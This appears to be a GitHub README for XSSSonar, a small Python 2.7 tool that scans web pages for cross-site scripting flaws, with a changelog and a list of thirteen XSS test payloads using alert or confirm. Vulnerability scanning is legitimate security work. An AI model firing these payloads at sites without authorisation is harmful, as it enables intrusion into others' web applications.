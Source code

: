 # XSSSonar

Little tool to look for XSS vulnerabilities in a web page.

![XSS Sonar Screenshot](xsssonar.png)

## Info

This code is just a draft. There are some errors still to be corrected, and sometimes false positives occur.<br/>
Test with Python 2.7.9 on Debian Jessie. I'll write it for Python 3.x maybe.<br/>

## ChangeLog

<strong>0.1.6</strong><br/>
[-] Fixed some bugs<br/>
[-] Added scan on list of POST parameters<br/>
[-] Added option to assign default value to a POST parameter<br/>
[-] Added help function<br/>
<br/>
<strong>0.1.5a</strong><br/>
[-] Fixed some bugs<br/>
[-] Less than 400 lines of code<br/>
<br/>
<strong>0.1.5</strong><br/>
[-] Added scan on POST parameters<br/>
[-] Changed name<br/>
<br/>
<strong>0.1.4a</strong><br/>
[-] Added stopwatch to know the time spent to check each URL<br/>
[-] Same features with 1500 lines of code missing<br/>
<br/>
<strong>0.1.4</strong><br/>
[-] Check a single URL or a list.txt of sites

## List of XSS Payloads

    '">"'><img src=x onerror=confirm`XSS`>
    "> <script>alert`XSS`</script>
    '">"'><svg onload=confirm`XSS`>
    "',;</script><script>confirm`XSS`</script>
    '><svg onload=confirm`XSS`>
    "><svg/onload=confirm`XSS`//
    "><details/open/ontoggle=confirm`XSS`>
    " onfocus="confirm`XSS`" autofocus=""
    " onclick="confirm`XSS`"
    " onmouseover="confirm`XSS`"
    \"-confirm`XSS`//
    \'-confirm`XSS`//
    "-confirm`XSS`-"'-confirm`XSS`-'

## To start

```
pip install -r requirements.txt<br/>
python xsssonar.py
```

